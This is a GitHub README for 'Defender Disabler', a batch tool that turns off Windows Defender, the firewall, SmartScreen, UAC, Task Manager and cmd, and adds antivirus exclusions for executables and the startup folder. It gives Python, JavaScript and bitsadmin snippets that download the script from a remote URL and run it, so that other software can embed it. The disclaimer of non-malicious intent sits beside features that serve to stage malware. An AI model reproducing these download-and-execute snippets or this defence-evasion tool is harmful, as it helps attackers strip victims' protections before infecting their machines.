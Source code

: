 <h1 align="center">
  Defender Disabler ➰
</h1>

<p align="center">
  Destroy Windows Defender so hard that it doesn't even know it exists anymore
</p>

<p align="center">
  <kbd>
    <img src="https://raw.githubusercontent.com/Rdimo/images/master/Defender-Disabler/defender-disabler.png"></img>
  </kbd>
</p>

<p align="center">
  <img src="https://img.shields.io/github/languages/top/Rdimo/Defender-disabler?style=flat-square"/>
  <img src="https://img.shields.io/github/last-commit/Rdimo/Defender-disabler?style=flat-square"/>
  <img src="https://sonarcloud.io/api/project_badges/measure?project=Rdimo_Defender-disabler&metric=ncloc"/>
  <img src="https://img.shields.io/github/stars/Rdimo/Defender-disabler?color=5ac18e&label=Stars&style=flat-square"/>
  <img src="https://img.shields.io/github/forks/Rdimo/Defender-disabler?color=5ac18e&label=Forks&style=flat-square"/>
</p>

<h2 align="center">
  Defender-disabler was made by

Love ❌ code ✅

</h2>

---

## <a id="content"></a>🌐 〢 Content

- [🔰・Features](#features)
- [🌌・Discord](https://cheataway.com/invite)
- [🎉・Using defender-disabler](#setup)
- [🌱・Inspiration/Credits](#credits)
- [❕・Warning](#warn)

## <a id="features"></a>🔰 〢 Features

```
> Disables Windows Defender completely
> Disables Automatic Sample Submission and Quickscan
> Disables Windows FireWall, Smart Screen, and other security features
> Disables important security settings such as Real-time and Ransomware protection, AntiSpyware, BehaviorMonitoring,  etc..
> Adds .exe and .bat files as exclusions and the startup folder as exclusions
> Disables UAC (Reboot Required)
> Disables TaskManager, Registrytools, cmd, run
> + Loads More!
```

## <p align="left"><img src="https://raw.githubusercontent.com/Rdimo/images/master/Defender-Disabler/Screenshot%202021-10-14%20162401.png">

---

## <a id="setup"></a> 📁 〢 Using defender-disabler

First off you need to figure out if you want to use this program alone or use it in some other software that downloads and runs it.

1. Compiling the program
   There are multiple ways of compiling a batch file,

   - [Converting Batch file to Exe via IExpress](https://adamtheautomator.com/bat-to-exe/#Converting_BAT_file_to_EXE_via_IExpress)
     - [Converting Batch Scripts to Exe with Bat To Exe Converter](https://adamtheautomator.com/bat-to-exe/#Converting_BAT_Scripts_to_EXE_with_Bat_To_Exe_Converter)
       - [Converting Batch Scripts to Exe via Advanced BAT to EXE Converter](https://adamtheautomator.com/bat-to-exe/#Converting_BAT_Scripts_to_EXE_via_Advanced_BAT_to_EXE_Converter)
<br>
2. Implementing it in your software
   Depending on what language you're using, it will require different ways of implementing it.
  
   Here are some examples:

- [Python](https://www.python.org/):

```python
import requests, os
_file = requests.get('https://raw.githubusercontent.com/Rdimo/Defender-disabler/main/disabler.bat')

with open('demo.bat', 'w') as f:
    f.write(_file.text)

os.startfile('demo.bat')
```

- [Javascript](https://nodejs.org/en/):

```javascript
const { exec } = require('child_process');
const fs = require('fs');
const axios = require('axios');

axios.get('https://raw.githubusercontent.com/Rdimo/Defender-disabler/main/disabler.bat', {
    responseType: 'text',
  }).then((response) => {
    fs.writeFileSync('demo.bat', response.data, { flag: 'a' }, (err) => {});
  });
exec('demo.bat');
```

- [Batch](https://en.wikipedia.org/wiki/Batch_file):

```batch
bitsadmin /transfer Packages /download /priority foreground https://raw.githubusercontent.com/Rdimo/Defender-disabler/main/disabler.bat "demo.bat"
start demo.bat
```

## <a id="warn"></a> ❕ 〢 Warning 
  Running this program will completely disable Windows Defender. This program was not made to be used for any malicious purposes.
  If you now accidently ran this program on your main pc instead of a vm, reverting the changes will be hard but most of them can be fixed by runnig [enabler.bat](https://github.com/Rdimo/Defender-disabler/blob/main/enabler.bat) as admin

## <a id="credits"></a> 🌱 〢 Inspiration/Credits
  Most of the code is taken from [swagkarna](https://github.com/swagkarna) and his [Defender-disabler](https://github.com/swagkarna/Defeat-Defender-V1.2)
  This one is just more smoother, improved, more user friendly and has more features.


  <br>

<p align="center">
  By using Defender Disabler, you agree that you hold responsibility and accountability of any consequences caused by your actions
<br>
  <a href=#top>Back to Top</a>
</p>
